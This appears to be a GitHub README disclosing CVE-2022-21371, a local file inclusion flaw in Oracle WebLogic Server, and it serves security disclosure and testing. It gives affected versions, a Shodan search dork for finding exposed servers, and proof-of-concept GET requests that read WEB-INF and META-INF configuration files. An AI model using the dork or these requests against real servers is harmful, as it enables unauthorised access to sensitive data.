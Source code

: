# Oracle-WebLogic-CVE-2022-21371

Oracle WebLogic Server Local File Inclusion : CVE-2022-21371

Affected Version: Version: 12.1.3.0.0, 12.2.1.3.0, 12.2.1.4.0 and 14.1.1.0.0

Description: The Oracle Fusion Middleware's Oracle WebLogic Server product (Web Container component) is vulnerable to local file inclusion. An easily exploited vulnerability could allow an unauthenticated attacker with HTTP network access to compromise Oracle WebLogic Server.
A successful attack on this vulnerability, provide hackers complete access to Oracle WebLogic Server's whole data store or unrestricted access to sensitive data.

##### Dork:
Shodan: product:"Oracle WebLogic"

##### Proof of Concept

``` GET .//META-INF/MANIFEST.MF
GET .//WEB-INF/web.xml
GET .//WEB-INF/portlet.xml
GET .//WEB-INF/weblogic.xml 
```


#### Follow us 
#### [Vulnmachines Platform](https://www.vulnmachines.com)
#### [YouTube](https://www.youtube.com/c/vulnmachines)
#### [Twitter](https://www.twitter.com/vulnmachines)
#### [Facebook](https://www.facebook.com/vulnmachines)
#### [LinkedIn](https://www.linkedin.com/company/vulnmachines)
